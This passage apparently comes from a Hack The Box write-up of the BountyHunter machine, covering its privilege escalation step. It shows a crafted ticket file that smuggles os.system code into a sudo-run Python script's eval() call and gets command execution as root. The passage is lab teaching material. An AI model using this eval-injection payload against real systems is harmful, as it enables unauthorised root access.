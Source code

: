 ```python
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

The first thing that stands out is the eval. That combined with the fact we can run this as root could be our path forward to root. Okay, so what we need to do is craft a valid ticket for the script to read and try to include some of our own code inside the eval function that gets called. There are a few requirements for the ticket format that must be met in order to reach the code branch that gets us to eval():

1. The file must end in ".md"
2. The first line must be "# Skytrain Inc"
3. The second line must be "## Ticket to 'anything here'"
4. The third line must be " _ _Ticket Code:_ _"
5. Our magic number must be followed by a "+" sign as the code splits on that and takes the 0th index
6. Lastly, the fourth line must start with "**", and then followed by a number greater than 100 and also has a modulo of 4 when divided by 7.

Simple code to generate valid numbers:
```python
In [1]: for x in range(101,1001):
   ...:     if x % 7 == 4:
   ...:         print(x)
```

It gives us many, let's pick 186 as our number. There's one last trick, since we are executing inside an eval function, we must perform some simple expressions with our magic number first, then we can use the and operator to execute the python of our choosing (as the root user with sudo).

Given all this, here's our crafted ticket payload to test:
```text
development@bountyhunter:/tmp$ cat payload.md
# Skytrain Inc
## Ticket to pwntown
__Ticket Code:__
**186+1==187 and __import__('os').system('whoami') == True
```

We hit all the requirements and our magic number and whoami command expressions are evaluated which is required since we're inside eval(). Let's run the ticketValidator.py with sudo and pass in our ticket:
```text
development@bountyhunter:/opt/skytrain_inc$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/payload.md
Destination: pwntown
root
```


[1]: https://app.hackthebox.com/users/280547
[2]: https://www.hackthebox.eu
